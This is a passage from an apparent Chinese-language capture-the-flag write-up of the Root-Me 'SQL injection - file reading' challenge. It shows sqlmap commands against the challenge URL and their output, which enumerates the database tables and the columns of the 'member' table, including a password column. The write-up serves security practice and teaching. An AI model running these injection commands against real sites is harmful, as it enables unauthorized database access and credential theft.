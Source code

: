 ![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/04.png)

------------


### 获取数据表

继而查询当前库中的所有数据表，只有 `member` 一张表：

```shell
sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" -D c_webserveur_31 --tables

---
[22:21:05] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0
[22:21:05] [INFO] fetching tables for database: 'c_webserveur_31'
[22:21:05] [INFO] used SQL query returns 1 entry
Database: c_webserveur_31
[1 table]
+--------+
| member |
+--------+
```
![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/05.png)

------------


### 获取表结构

再查询数据表 `member` 的表结构：

```shell
sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" -D c_webserveur_31 -T member --columns

---
[22:22:44] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0
[22:22:44] [INFO] fetching columns for table 'member' in database 'c_webserveur_31'
[22:22:44] [INFO] used SQL query returns 4 entries
[22:22:44] [INFO] resumed: 'member_id','int(1)'
[22:22:44] [INFO] resumed: 'member_login','varchar(20)'
[22:22:44] [INFO] resumed: 'member_password','varchar(1000)'
[22:22:44] [INFO] resumed: 'member_email','varchar(50)'
Database: c_webserveur_31
Table: member
[4 columns]
+-----------------+---------------+
| Column          | Type          |
+-----------------+---------------+
| member_email    | varchar(50)   |
| member_id       | int(1)        |
| member_login    | varchar(20)   |
| member_password | varchar(1000) |
+-----------------+---------------+
```
